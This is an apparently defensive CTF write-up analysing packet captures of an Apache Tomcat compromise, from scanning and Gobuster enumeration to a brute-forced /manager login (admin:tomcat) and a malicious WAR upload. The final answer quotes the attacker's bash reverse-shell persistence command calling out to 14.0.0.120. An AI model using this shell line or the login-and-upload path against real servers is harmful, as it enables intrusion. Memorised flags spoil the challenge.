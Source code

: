```yaml
---
title: CyberDefender - Tomcat Takeover
tags: [CyberDefender, Network Forensics]

category: "Security/Practice/CyberDefender/Network Forensic"
---
```


# CyberDefender - Tomcat Takeover
Challenge: https://cyberdefenders.org/blueteam-ctf-challenges/135#nav-questions

:::spoiler TOC
[TOC]
:::

## Scenario
>  Our SOC team has detected suspicious activity on one of the web servers within the company's intranet. In order to gain a deeper understanding of the situation, the team has captured network traffic for analysis. This pcap file potentially contains a series of malicious activities that have resulted in the compromise of the Apache Tomcat web server. We need to investigate this incident further.

## ==Q1==
> Given the suspicious activity detected on the web server, the pcap analysis shows a series of requests across various ports, suggesting a potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server? 
### Recon
直覺就是先看endpoint或conversation
### Exploit
可以看到==14.0.0.120==和內網的`10.0.0.112`，代表前者應該就是此次的外部攻擊者
![image](https://hackmd.io/_uploads/HkPNR5tUp.png)

:::spoiler Flag
Flag: `14.0.0.120`
:::
## ==Q2==
> Based on the identified IP address associated with the attacker, can you ascertain the city from which the attacker's activities originated? 
### Recon
找到IP後丟到whois看detailed info
### Exploit
這一題問的是city，不是province，所以要填廣州，不是廣東
![image](https://hackmd.io/_uploads/HJakbiFIT.png)

:::spoiler Flag
Flag: `Guangzhou`
:::
## ==Q3==
> From the pcap analysis, multiple open ports were detected as a result of the attacker's activitie scan. Which of these ports provides access to the web server admin panel? 
### Recon
隨便猜

:::spoiler Flag
Flag: `8080`
:::
## ==Q4==
> Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process? 
### Recon
這一題直接問chat-gpt，因為工具太多了，乾脆直接問AI最快
### Exploit
[ChatGPT Answer](https://chat.openai.com/share/72f8bf09-7c96-46c6-87a4-96b2e27e1f80)
> Dirb / Dirbuster / Gobuster / Dirsearch:
> * These tools are designed to brute-force directories and files on web servers by making requests with different wordlists.

:::spoiler Flag
Flag: `Gobuster`
:::
## ==Q5==
> Subsequent to their efforts to enumerate directories on our web server, the attacker made numerous requests trying to identify administrative interfaces. Which specific directory associated with the admin panel was the attacker able to uncover? 
### Recon
這一題是從tcp flow中的transport file，慢慢回推回去tcp stream再詳細看其中的packet，因為根據題目敘述，它應該是狂送一大堆封包去爆目錄，所以我們只要往大方向觀察就知道大概在哪一段
### Exploit
根據extracted file的內容，在#20649附近的stream已經可以拿到reverse shell了，代表從這邊往前可能是個不錯的選擇
![image](https://hackmd.io/_uploads/ByRj4ot8a.png)
果不其然，它的順序一定是先爆路徑，之後再想怎麼塞reverse shell，所以從下圖可以知道有一大堆的404 error request，跟著他的stream就可以看到最重要的那個sub-path
![image](https://hackmd.io/_uploads/H1YNVjKIa.png)
又題目說到該頁面是個admin panel，代表應該是個可以登入做authentication的地方，所以後續看到的第一個status code 200的/example就不是我們的目標，而是再更後面的==/manager==，因為它有login stage
![image](https://hackmd.io/_uploads/H1CjUsK8a.png)

:::spoiler Flag
Flag: `/manager`
:::
## ==Q6==
> Upon accessing the admin panel, the attacker made attempts to brute-force the login credentials. From the data, can you identify the correct username and password combination that the attacker successfully used for authorization? 
### Recon
呈上題，拿到登入頁面當然就是要爆帳密，所以往後面的stream看可以發現有很多嘗試login的request，但都是401 Unauthorized
### Exploit
從下圖可以發現，往後刷幾個packets就有一個status 200的response，也就是attacker成功嘗試登入的response，從這邊把credential抓到base64 decode就會發現帳密
![image](https://hackmd.io/_uploads/HyM5DoYUT.png)

:::spoiler Flag
Flag: `admin:tomcat`
:::
## ==Q7==
> Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data? 
### Recon
往後看tcp stream會發現manager有upload的功能，所以attacker嘗試上傳一些東西，應該是一個zip file
### Exploit
![image](https://hackmd.io/_uploads/BJCtKjF8T.png)

:::spoiler Flag
Flag: `jxqozy.war`
:::
## ==Q8==
> Upon successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence? 
### Recon
再往後看同一個stream的其他packet，發現server response 200，上傳成功後就可以直接進入reverse shell，接著就是看它的指令，發現他想要常駐在該台電腦上
### Exploit
![image](https://hackmd.io/_uploads/B12M5stLa.png)

:::spoiler Flag
Flag: `/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'`
:::